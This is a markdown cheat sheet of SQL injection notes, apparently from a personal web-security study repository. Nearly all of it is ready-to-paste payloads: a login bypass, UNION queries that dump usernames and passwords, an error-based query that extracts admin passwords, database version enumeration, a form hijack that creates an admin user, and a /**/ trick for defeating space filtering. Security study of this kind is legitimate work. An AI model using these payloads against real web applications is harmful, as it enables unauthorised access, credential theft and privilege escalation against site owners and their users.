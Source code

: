 # SQLi notes

#### Bypass login
`admin' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1` in username field and than `pass` in password field

#### To jump to other tables:
`' UNION SELECT username, password FROM users--`

#### Enumerate database columns
`SELECT * FROM information_schema.tables`

#### Grab DB name
`%’ or 0=0 union select null, database() #`

#### Grab all column contents
`%’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users # Click Submit`

#### Grab a pw
`1 or 1 =1 union Select 1, password from users`  
`1'union select null, concat_ws (char (32,58,32), user, password) from users #`
`' or (select 1 from (Select count(*),concat((select password from admins),"+",floor(rand()*2))a from information_schema.tables group by a)b)#`

#### Enumerate vesrion:
`SELECT * FROM v$version`
`SELECT @@version`
`SELECT version()`

#### Create your own user:
`INSERT INTO users (username, password, ID, privs) VALUES ('nuadmin','pass',2248,1)`

#### Hijack user creation form to create a user with admin privs:
`nuadmin', 'pass', 9999, 0)--`

#### Enumerating columns:
Consider an online user search, its statement would be something like:

`SELECT * FROM users WHERE ID=1`

To enumerate what we can union select, we can add a union select, and keep adding columns until we no longer get errors.

`ID=1 UNION SELECT 1,2--` OR `ID=1 ORDER BY 4` OR `GROUP BY 1,2,3,4,5,6,7,8,9,10`

If data from only first part of query is returned, we can invalidate it:

`ID=1 AND 1=2 UNION SELECT 1,2,3--`

If this returns our own values, we can start emumerating sys info:

`id=1 and 1=2 union select version(), user(),3`

#### Quick tips:
space sanitisation can be defeated with `/**/`

sometimes adding a comment at the end of query can complete the injection `--` (postgresql) `#` (mysql) `--+-`

Sometimes a webpage will take a parameter as a string, not an int - in which case we close the quotes so our entire injection isnt considered one string:

`SELECT * FROM users WHERE ID=1'` *Remember you may need to close the attack with another apostrophe*

`UNION` only selects distnict, use `UNION ALL` to select duplicates

To begin an attack, try to break the string with an invalidation

Pay attention to the backend use of single and double quotes in errors

#### BlindSQL:
Truth must be "infered" generally with a sleep function

Check for true vs false responses

### [Error Based SQLi](https://github.com/kymb0/web_study/blob/master/sqli/error_based_sqli.md)
